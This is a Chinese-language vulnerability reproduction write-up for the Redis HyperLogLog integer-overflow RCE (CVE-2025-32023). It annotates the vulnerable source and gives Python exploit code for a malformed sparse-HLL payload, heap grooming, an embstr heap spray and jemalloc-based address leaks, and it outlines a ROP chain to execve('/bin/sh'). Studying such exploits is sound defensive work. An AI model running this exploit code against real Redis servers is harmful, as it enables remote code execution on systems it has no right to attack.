# Redis hyperloglog远程代码执行漏洞 (CVE-2025-32023)复现分析-先知社区

> **来源**: https://xz.aliyun.com/news/18512  
> **文章ID**: 18512

---

# 总体利用流程

通过构造恶意稀疏型HLL与正常密集型HLL执行合并操作，触发Redis在HLL合并过程中导致的整数上溢漏洞，**造成受限地址写**（覆盖`int`负数范围的`3/4`）。  
预先构造包含三个`0x3800`字节sds对象（`sdsa/sdsb/sdsc`）及合并后密集型HLL数据的堆布局，利用受限地址写修改sdsb头部类型标识符（`SDSHDR16`的`0x02`改为`SDSHDR64`的`0x04`），使`len/alloc`字段解析范围从`2`字节扩展至`8`字节，进而覆盖`sdsa`尾部伪造的长长度字段，通过`sdsb`**进一步实现的大范围内存读写能力**。  
地址泄露阶段通过`embstr`结构内存布局特性，基于内存管理特性需大量申请含特定字符的`embstr`对象以确保目标对象处于`sdsb`的内存读写范围，进而解析`embstr`内存内容以获取其地址，并通过地址关联**泄露出**`sdsb`**基址**。其次对齐内存块按页遍历，通过识别`jemalloc`内存块头部`base_block_t`结构的特征字段以及`je_ehooks_default_extent_hooks`段内地址不改变的特性，得出`je_ehooks_default_extent_hooks`真实地址，结合`Redis`静态链接`jemalloc`库的特性**泄露出程序段基地址**。  
最终通过内存修改将`embstr`对象伪造为`Module`类型结构，构造包含`ROP`链的模块数据，利用命令执行触发伪造`Module`中`free`函数，通过栈迁移执行`ROP`链修改标准流并**调用**`execve("/bin/sh")`，完成权限提升。

# 第一步 通过整数溢出导致受限地址写

## 整数溢出漏洞源码分析

在`hllMerge`和`hllSparseToDense`函数中均存在整数溢出漏洞，作用利用`hllSparseToDense`进行攻击，我们对其进行分析。源码如下：

```
int hllSparseToDense(robj *o) {
    sds sparse = o->ptr, dense;
    struct hllhdr *hdr, *oldhdr = (struct hllhdr*)sparse;
    int idx = 0, runlen, regval;
    uint8_t *p = (uint8_t*)sparse, *end = p+sdslen(sparse);

    hdr = (struct hllhdr*) sparse;
    if (hdr->encoding == HLL_DENSE) return C_OK;

    dense = sdsnewlen(NULL,HLL_DENSE_SIZE);
    hdr = (struct hllhdr*) dense;
    *hdr = *oldhdr;
    hdr->encoding = HLL_DENSE;

    p += HLL_HDR_SIZE;      // 漏洞的开始
    while(p < end) {
        if (HLL_SPARSE_IS_ZERO(p)) {
            runlen = HLL_SPARSE_ZERO_LEN(p);
            idx += runlen;
            p++;
        } else if (HLL_SPARSE_IS_XZERO(p)) {
            runlen = HLL_SPARSE_XZERO_LEN(p);
            idx += runlen;
            p += 2;
        } else {
            runlen = HLL_SPARSE_VAL_LEN(p);
            regval = HLL_SPARSE_VAL_VALUE(p);
            if ((runlen + idx) > HLL_REGISTERS) break;    //漏洞的主要触发点
            while(runlen--) {
                HLL_DENSE_SET_REGISTER(hdr->registers,idx,regval);//漏洞最重要的利用点
                idx++;
            }
            p++;
        }
    }  //漏洞的结束
    if (idx != HLL_REGISTERS) {
        sdsfree(dense);
        return C_ERR;
    }
    sdsfree(o->ptr);
    o->ptr = dense;
    return C_OK;
}
```

该函数用于将稀疏型`HLL`数据结构转换为密集型，稀疏模式存储格式如下：

|  |  |  |
| --- | --- | --- |
| 类型 | 编码格式 | 说明 |
| **拓展零运行**`xzero` | `01xxxxxx yyyyyyyy` | 表示连续够长的零值区域 |
| **零运行**`zero` | `00xxxxxx` | 设置连续但不够长的零值区域 |
| **特殊值** | `1vvvvvxx` | 紧凑存储小值 |

简单介绍下`HLL`数据类型，`HLL`使用`16384`个`6`位寄存器存储基数估算中间状态。密集模式直接存储所有寄存器值，内存消耗较大；稀疏模式则通过编码压缩存储连续相同值。

​

稀疏状态通过上述编码表示多个寄存器的值。后面会用到所以这里提一下。

​

在转化过程中，有三点关键，一是处理`ZERO`/`XZERO`编码时无边界检查，仅`VAL`类型存在检查`if ((runlen + idx) > HLL_REGISTERS) break`；二是检查中的`idx`为`int`类型，可能为负值；三是溢出后`HLL_DENSE_SET_REGISTER(hdr->registers,idx,regval)`可越界修改堆内存

====补充说明：`hllMerge`中的类似漏洞可修改栈上数组`max`，但本`CVE`未利用此路径。====

## 实际执行的布局

`hllSparseToDense`函数通过`pfmergeCommand`调用链触发，这里贴出`pfmergeCommand`函数的源码：

```
/* PFMERGE dest src1 src2 src3 ... srcN => OK */
void pfmergeCommand(client *c) {
    uint8_t max[HLL_REGISTERS];
    struct hllhdr *hdr;
    int j;
    int use_dense = 0; /* 是否需要用密集型作为目标？ */

    /* 1. 计算所有输入HLL的寄存器最大值，结果存入max数组 */
    memset(max,0,sizeof(max));
    for (j = 1; j < c->argc; j++) {
        /* 检查类型和合法性 */
        robj *o = lookupKeyRead(c->db,c->argv[j]);
        if (o == NULL) continue; /* 不存在的key视为全0 */
        if (isHLLObjectOrReply(c,o) != C_OK) return;

        /* 只要有一个输入是密集型，目标就要密集型 */
        hdr = o->ptr;
        if (hdr->encoding == HLL_DENSE) use_dense = 1;

        /* 合并当前HLL到max数组 */
        if (hllMerge(max,o) == C_ERR) {
            addReplyError(c,invalid_hll_err);
            return;
        }
    }

    /* 2. 获取/创建目标key对象 */
    robj *o = lookupKeyWrite(c->db,c->argv[1]);
    if (o == NULL) {
        o = createHLLObject(); // 默认创建稀疏型
        dbAdd(c->db,c->argv[1],o);
    } else {
        o = dbUnshareStringValue(c->db,c->argv[1],o);
    }

    /* 3. 如果有输入是密集型，则目标对象转为密集型 */
    if (use_dense && hllSparseToDense(o) == C_ERR) {
        addReplyError(c,invalid_hll_err);
        return;
    }

    /* 4. 写入合并结果到目标HLL */
    for (j = 0; j < HLL_REGISTERS; j++) {
        if (max[j] == 0) continue;
        hdr = o->ptr;
        switch(hdr->encoding) {
        case HLL_DENSE: hllDenseSet(hdr->registers,j,max[j]); break;
        case HLL_SPARSE: hllSparseSet(o,j,max[j]); break;
        }
    }
    hdr = o->ptr; /* o->ptr 可能因升级为密集型而变化 */
    HLL_INVALIDATE_CACHE(hdr);

    signalModifiedKey(c,c->db,c->argv[1]);
    /* 语义上等价于批量pfadd，触发事件 */
    notifyKeyspaceEvent(NOTIFY_STRING,"pfadd",c->argv[1],c->db->id);
    server.dirty++;
    addReply(c,shared.ok);
}
```

函数主要执行流程是首先遍历所有输入`HLL`对象，将各寄存器最大值合并至`max`数组。若存在任意输入为密集型（`HLL_DENSE`），则设置`use_dense=1`标志。随后获取或创建目标`key`对象（首个参数），若目标已存在则通过`dbUnshareStringValue`复制其数据至新空间。关键点在于：当`use_dense=1`且目标为稀疏型时，对新空间执行`hllSparseToDense`转换。

因此，攻击需构造一个密集型和一个稀疏型`HLL`作为输入，并将目标`key`（即首个参数）预设为稀疏型，以确保复制后的新空间在转换时触发漏洞。

==需要注意的点：`pfmergeCommand`的**首个参数需强制设置为稀疏型HLL**，因执行流程会判定首个参数是否为空，非空时通过`dbUnshareStringValue`创建新空间并复制其数据，随后判断是否需转为密集型，若需则对新空间执行转换操作，将首个参数设为稀疏型可确保复制后的新空间在转换为密集型时触发漏洞代码。==

## 实际执行的代码

这里借用cve作者的代码部分，如下：

```
# HyperLogLog 相关常量定义
HLL_DENSE = 0     # 密集编码类型
HLL_SPARSE = 1    # 稀疏编码类型
HLL_DENSE_SIZE = 0x3010  # 密集编码的大小

# 创建密集型 HLL，本质上就是一个带有特定编码的字符串
# HYLL 是 HyperLogLog 的魔术字符串标识
pl = b'HYLL'
pl += p8(HLL_DENSE)  # 设置为密集编码
pl = pl.ljust(HLL_DENSE_SIZE, p8(0))  # 填充到指定大小
r.set('hll:dense', pl)
# 确认 HLL 编码有效性
r.pfadd('hll:dense')

# 构造畸形的稀疏 HLL
# xzero 函数用于生成稀疏编码中的零运行长度编码
def xzero(sz):
  sz -= 1
  return p8(0b01_000000 | (sz >> 8)) + p8(sz & 0xff)  # 按照 Redis HLL 稀疏编码格式构造

# 构造恶意 payload
pl = b'HYLL'  # HLL 魔术字符串
pl += p8(HLL_SPARSE) + p8(0)*3  # 设置为稀疏编码
pl += p8(0)*8  # 填充
assert len(pl) == 0x10
# 下面的操作会导致计数器溢出，从而触发漏洞
pl += xzero(0x4000) * 0x3fffd   # -0xc000
pl += xzero(0xc000 - 0x956c)    # -, where divmod(-0x956c*6, 8) = (-0x7011, 0)
pl += p8(0b1_00011_00)          # runlen = 1, regval = 4 = SDS_TYPE_64 => -0x956b, 覆写 sds:b 类型
pl += xzero(0x156b)             # -0x8000
pl += xzero(0x4000) * 3         # 0x4000
r.set('hll:exp', pl)
```

首先需解释：`Redis`数据以键值对形式存储，每个键值对通过`dictEntry`结构表示，其中值部分由`robj`（`Redis`对象）结构体封装。`robj`末尾包含指向`sds`（简单动态字符串）内存空间的指针，实际数据（包括`HLL`完整结构）存储在`sds`的数据段中。整体存储层级关系见附图。  
  
使用`pwndbg`进行调试验证（若需调试时保留与图中一致的调试信息，编译时需添加`-g`选项保留调试符号），针对`HLL`密集型数据结构展开分析。如下的调试视图清晰展示了`dictEntry`、`robj`、`sds`、`hllhdr`四层结构的关联关系。  


==这里有一个调试小技巧，将断点设置在`dbadd`（无调试信息用`dbAddInternal.lto_priv.0`作为断点）上可以通过函数返回值（`rax`）轻松得到各个`dictEntry`数据的地址==

在明确`HLL`存储结构的基础上，重点分析稀疏型`HLL`的恶意构造过程：

```
def xzero(sz):
  sz -= 1
  return p8(0b01_000000 | (sz >> 8)) + p8(sz & 0xff)  # 按照 Redis HLL 稀疏编码格式构造

# 构造恶意 payload
pl = b'HYLL'  # HLL 魔术字符串
pl += p8(HLL_SPARSE) + p8(0)*3  # 设置为稀疏编码
pl += p8(0)*8  # 填充
assert len(pl) == 0x10
# 下面的操作会导致计数器溢出，从而触发漏洞
pl += xzero(0x4000) * 0x3fffd   # -0xc000
pl += xzero(0xc000 - 0x956c)    # -, where divmod(-0x956c*6, 8) = (-0x7011, 0)
pl += p8(0b1_00011_00)          # runlen = 1, regval = 4 = SDS_TYPE_64 => -0x956b, 覆写 sds:b 类型
pl += xzero(0x156b)             # -0x8000
pl += xzero(0x4000) * 3         # 0x4000
r.set('hll:exp', pl)
```

通过`xzero`函数生成符合`HLL`稀疏编码规范的`xzero`运行段（一个`xzero(0x4000)`代表有`0x4000`个寄存器为`0`），基于此构建恶意`payload`：  
以`HYLL`魔术头开头，设置稀疏编码标识并填充至`0x10`字节完成头部构造。  
随后通过`xzero(0x4000)-0x3fffd`与`xzero(0xc000-0x956c)`的组合使计数器溢出（`0x4000* 0x3fffd+0xc000=0x100000000`，减`0x956c`得-`0x956c`）。  
再通过`p8(0b1_00011_00)`设置`runlen=1`、`regval=4`（对应`SDS_TYPE_64`），最终`idx`为`-0x956c`；  
然后再执行宏定义`HLL_DENSE_SET_REGISTER`。

```
#define HLL_DENSE_SET_REGISTER(p,regnum,val) do { \
    uint8_t *_p = (uint8_t*) p; \
    unsigned long _byte = (regnum)*HLL_BITS/8; \
    unsigned long _fb = (regnum)*HLL_BITS&7; \
    unsigned long _fb8 = 8 - _fb; \
    unsigned long _v = (val); \
    _p[_byte] &= ~(HLL_REGISTER_MAX << _fb); \
    _p[_byte] |= _v << _fb; \
    _p[_byte+1] &= ~(HLL_REGISTER_MAX >> _fb8); \
    _p[_byte+1] |= _v >> _fb8; \
} while(0)
```

当执行`HLL_DENSE_SET_REGISTER`宏时，寄存器编号`regnum=-0x956c`通过公式`_byte=(regnum)*HLL_BITS/8`计算（其中`HLL_BITS=6`），得到`_byte=-0x7011`。该负值偏移使宏操作访问到`sds`结构头部的`flags`字段（`SDS_TYPE_64`对应偏移`-0x7011`处），将其修改为`regval=4`，从而篡改内存管理元数据。

调试验证显示目标偏移地址已被成功修改如下图，证明漏洞利用有效。  


至此完成第一步漏洞利用：通过构造恶意稀疏型`HLL`数据，实现了**受限地址写能力**（覆盖范围为`int`负数空间的`3/4`）。

# 第二步 堆风水构建实现大范围内存读写

## 堆风水构建

堆风水构建阶段，我们通过预分配策略控制堆块布局：密集型`HLL`对象底层对应`sdshdr16`结构，占用`0x3010`字节空间，由于`jemalloc`内存分配器对齐内存块的特性，该尺寸的申请会向上取整至`0x3800`的标准堆块。由于漏洞利用场景下仅能修改位于目标堆块地址下方的内存区域，我们预先创建三个`sdshdr16`实例（`sdsa/b/c`），通过调整数据尺寸使其均分配`0x3800`大小的堆块，最终形成四个`0x3800`堆块连续排列的内存布局（原始`HLL`堆块+三个预分配堆块），堆风水示意图如下：  


==注意：第一步的修改仅能作用于`6`bit整数倍的空间，因此`sbs:c`的存在是为了通过偏移计算精准修改`sbs:b`的`flag`位，同时避免影响其他区域==

## 实际执行的代码

风水构建的核心代码如下，通过`setrange`操作构造`0x3800`长度的`sds`，并存储一个足够大的`fakelen`：

```
fakelen = 0x4142434445464748  # 伪造的超大长度
r.setrange('sds:a', 0x37fa - 11, p64(fakelen))  # sds @ 0x0005
r.setrange('sds:b', 0x37fa - 8, b'B'*8)         # sds @ 0x3805
r.setrange('sds:c', 0x37fa - 8, b'C'*8)         # sds @ 0x7005
```

结合前序漏洞利用修改`sds:b`的`flags`字段，其中`sds`结构定义为：  
`len`表示实际字符串长度（不含结尾`\0`）  
`alloc`表示分配的`buf`空间大小（不含头部和结尾`\0`）  
`flags`的低`3`位（`SDS_TYPE_MASK`）决定`sds`类型（对应`8/16/32/64`位长度），高`5`位未使用  
`buf`存储实际字符串内容（以`\0`结尾）。

其中`flags`编码规则：  
`0`对应`sdshdr5`（极短字符串，长度嵌入`flags`高`5`位）；`1`对应`sdshdr8`；`2`对应`sdshdr16`；`3`对应`sdshdr32`；`4`对应`sdshdr64`。

==注：Redis通过字符串地址`ptr`的`ptr-1`位置读取`flag`，确定`sds`类型后解析`len/alloc`字段。（这里的后面的数字例如`sdshdr64`，指的是`len/alloc`长度位`64`个`bit`位，即`8`个字节）==

结合第一步，我们修改`sbs:b`的`flag`标志位，如下图：  


结合这一步中堆的布局，我们将`sbs:b`构造成了一个超大的字符串。

至此**进一步实现的大范围内存读写能力**。

# 第三步 堆喷射和内存块识别泄露基地址

## 堆喷射泄露字符串地址

堆喷射泄露字符串地址的核心思路是通过`embstr`对象内存布局实现地址计算：

```
// embstr 对象的内存布局（连续分配）
struct {
    robj o;                    // Redis 对象头部
    struct sdshdr8 sh;         // SDS 头部  
    char buf[];                // 字符串内容
} embstr_object;
```

如上图，`embstr`对象采用连续内存分配结构，包含`robj`对象头（`0x10`字节）、`sdshdr8`头部及字符串缓冲区。当通过可控读取操作（如`sbs:b`）获取到`embstr`对象的内存数据时，由于`robj.ptr`指针直接指向`sdshdr8`的`buf`缓冲区起始地址，通过解析`robj`头部中的指针值并结合已知的内存布局偏移量，可计算出`sbs:b`字符串的起始地址。

由于`embstr`对象总长度仅`0x40`字节（含`0x2b`字节有效载荷），其堆块分配具有随机性，为确保在`sbs:b`可读范围内捕获至少一个`embstr`实例，采用特征化批量喷射策略（堆喷射），实现代码如下：

```
marker = ''.join(random.choices(string.ascii_letters + string.digits, k=8)).encode()  # 随机标记
log.info(f'{marker = }')
spray_cnt = 0x100000 // 0x40
for i in range(spray_cnt // 0x400):   # 批量喷射以提高效率
  ms = {}
  for j in range(0x400):
    idx = i * 0x400 + j
    ms[f'sds:_{idx}'] = (marker+p64(idx)).ljust(0x2b, b' ')
  r.mset(ms)
```

简单分析一下代码，首先生成`8`字节随机标记（用于后续识别），随后计算喷射总量`spray_cnt = 0x100000 // 0x40`，并采用二级循环优化喷射效率：外层循环次数`0x10`批次喷射，内层循环生成`0x400`个特征化对象，每个对象命名格式为`sds:_{idx}`，内容结构为`标记(8字节)+序号(8字节)`，填充至`0x2b`字节长度。该设计通过序号`idx`建立内存地址与喷射对象的映射关系，为后续地址计算提供锚点。

在大量布局堆块后，利用`getrange('sds:b', 0, 0x100000)`读取大范围内存，通过其下面代码泄露出`sbs:b`字符串的起始地址。

```
# 利用前面伪造的长度转储堆内存
dump = r.getrange('sds:b', 0, 0x100000)[3:]    #--------------这个3有啥用   对齐

# 寻找符合条件的 embstr 对象
mark = 0x3700
while mark < len(dump):
  mark = dump.find(marker, mark)
  assert mark != -1
  tofs = mark - 3 - 0x10
  # 验证对象的类型标记、引用计数和 SDS 头部
  if dump[tofs] == 0x80 and u32(dump[tofs+4:tofs+8]) == 0x1 and dump[tofs+0x10:tofs+0x13] == b'\x2b\x2b\x01':
    break
  mark += 8
else:
  assert False, '[!] embstr spray egghunt fail'

# 计算目标 Redis 对象地址
tadr = u64(dump[tofs+8:tofs+0x10]) - 3 - 0x10   # embstr 对象的地址
tkey = f'sds:_{u64(dump[tofs+3+0x18:tofs+3+0x20])}' #index 值
log.success(f'{tofs = :#x} ({tkey = })')
log.success(f'{tadr = :#014x}')

# 计算 sds:b 的头部地址
badr = tadr - tofs - 8
log.info(f'{badr = :#014x}')
```

简单分析下代码，首先截取`dump = a[3:]`（跳过前`3`字节目的是对齐`8`字节），随后通过滑动窗口（`find`函数）搜索特征标记`marker`。当定位到标记后，计算`tofs = mark - 3 - 0x10`作为候选对象偏移量，并通过三重校验确保目标对象的合法性：

1. 对象头校验（`dump[tofs] == 0x80`表示`embstr`类型）；
2. 引用计数校验（`u32(dump[tofs+4:tofs+8]) == 0x1`，因对象未被其他引用操作修改）；
3. SDS头部校验（`dump[tofs+0x10:tofs+0x13] == b'\x2b\x2b\x01'`验证长度字段）。  
   通过校验后，解析`tadr = u64(dump[tofs+8:tofs+0x10]) - 3 - 0x10`获取`embstr`对象基址，并提取喷射对象的索引值`tkey = f'sds:_{u64(dump[tofs+3+0x18:tofs+3+0x20])}'`。最终通过`badr = tadr - tofs - 8`逆向推导出`sbs:b`字符串的头部地址，完成基址泄露。

==注：引用计数强制为1的根源在于除了创造未对`embstr`对象执行任何引用操作，确保其原始引用状态未被破坏==

至此我们**泄露出了**`sdsb`**基址**

## 寻找特殊堆块结构泄露程序基地址

在`jemalloc`内存分配器中，用于存储管理堆块元数据（核心为`arena`信息）的主分配区采用独立开辟的`2MB`内存块实现，其堆块头部按顺序包含`base_block_t`结构体、`edata_t`元数据及`base_t`管理结构。参考[解析Jemalloc的关键数据结构 - 知乎](https://zhuanlan.zhihu.com/p/671608149)的结构示意图如下：  
  
附实际内存分析图例如下：  
  
虽本人未完整研读源码，但通过不同线程`arena`所在分配区的交叉验证，可确认攻击脚本中用于筛选的元数据特征具有不变性和有效性。

其中在`base_t`的前两个成员中，存储着`ehooks_t`类型，结构体定义如下：

```
typedef struct base_s base_t;
struct base_s {
    /*
     * User-configurable extent hook functions.
     */
    ehooks_t ehooks;
    /*
     * User-configurable extent hook functions for metadata allocations.
     */
    ehooks_t ehooks_base;
    /* Protects base_alloc() and base_stats_get() operations. */
    malloc_mutex_t mtx;
    /* Using THP when true (metadata_thp auto mode). */
    bool auto_thp_switched;
    .................          #省略
}
typedef struct ehooks_s ehooks_t;
struct ehooks_s {
    /*
     * The user-visible id that goes with the ehooks (i.e. that of the base
     * they're a part of, the associated arena's index within the arenas
     * array).
     */
    unsigned ind;
    /* Logically an extent_hooks_t *. */
    atomic_p_t ptr;
};
```

特别地，`base_t`中两个`ehooks_t`成员的`ptr`字段都指向jemalloc内置的默认钩子函数集`ehooks_default_extent_hooks`。

**由于**`Redis`**采用静态链接方式集成**`jemalloc`**库**，`ehooks_default_extent_hooks`指针指向`Redis`主程序段（即`ELF` 文件的内存映射段），通过工具可以知道该指针值其在主程序段的偏移量，可精确计算出`Redis`程序的基地址。

至此我们只要找到对应的堆块结构，我们就可以泄露出`ehooks_default_extent_hooks`指针，最终泄露出`Redis`程序的基地址。

通过以上的结构使用内存特征匹配技术泄露`Redis`进程基址的实现流程如下：

```
# 寻找 redis-server 基地址
egg = binary.sym['je_ehooks_default_extent_hooks'] & 0xfff
# 下面range中的计算就是简单的对齐0x10000
for i in range(0x10000 - ((badr + 8) & 0xffff), len(dump), 0x10000):
  if u64(dump[i:i+8]) == 0x200000 and (u64(dump[i+0xc8:i+0xd0]) & 0xfff) == egg and (u64(dump[i+0xd8:i+0xe0]) & 0xfff) == egg:
    binary.address = u64(dump[i+0xc8:i+0xd0]) - binary.sym['je_ehooks_default_extent_hooks']
    break
else:
  assert False, '[!] redis-server base egghunt fail'

assert (binary.address & 0xfff) == 0
log.success(f'{binary.address = :#014x}')
```

简单分析代码，遍历堆内存转储数据，筛选满足`0x200000`（2MB）大小的内存块，并验证其`0xc8-0xcf`与`0xd8-0xdf`偏移处的两个地址的低12位（`&0xfff`）是否与`je_ehooks_default_extent_hooks`符号的低12位一致（利用静态链接库中符号地址的页内偏移恒定特性）。当匹配成功后，通过`ELF.sym['je_ehooks_default_extent_hooks']`符号的编译偏移量反向计算进程基址：`binary.address = u64(dump[i+0xc8:i+0xd0]) - binary.sym['je_ehooks_default_extent_hooks']`，最终确保`binary.address`按页对齐（`& 0xfff == 0`），完成基址泄露。

==注：`range`中`0x10000 - ((badr + 8) & 0xffff)`的计算是为了保证计算出来后开始遍历循环的地址后四位为`0x0000`，也是一种对齐==

下图为实际代码运行泄露情况：  
